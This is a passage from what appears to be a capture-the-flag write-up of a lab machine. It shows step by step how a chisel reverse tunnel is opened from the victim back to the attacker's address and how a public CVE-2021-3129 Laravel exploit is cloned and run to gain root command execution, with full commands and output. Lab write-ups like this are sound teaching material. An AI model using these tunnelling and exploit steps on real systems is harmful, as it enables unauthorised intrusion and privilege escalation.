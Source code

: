 Chisel works by setting a server locally and a client inside the victim machine:
```bash
strapi@horizontall:/tmp$ ./chisel client 10.10.14.161:1234 R:8000:127.0.0.1:8000
2022/07/05 04:00:38 client: Connecting to ws://10.10.14.161:1234
2022/07/05 04:00:40 client: Connected (Latency 175.182821ms)

----------------------------------------------------------------------------------------------

./chisel server --reverse -p 1234
2022/07/04 23:00:37 server: Reverse tunnelling enabled
2022/07/04 23:00:37 server: Fingerprint WvE59VJMFW9UMU8b/bKA12YM2IvcvIrAmW0phLHL33M=
2022/07/04 23:00:37 server: Listening on http://0.0.0.0:1234
2022/07/04 23:00:40 server: session#1: tun: proxy#R:8000=>8000: Listening
```

Now we can access this port from our **localhost**:
{{< image src="/img/hor-10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We have the version of the server, so we can look for exploits:
{{< image src="/img/hor-11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We find this one, so we will clone it:
```bash
❯ git clone https://github.com/nth347/CVE-2021-3129_exploit
Cloning into 'CVE-2021-3129_exploit'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (1/1), done.
```

It's usage is pretty straightforward:
{{< image src="/img/hor-12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

```bash
❯ ./exploit.py http://localhost:8000 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

And it works!
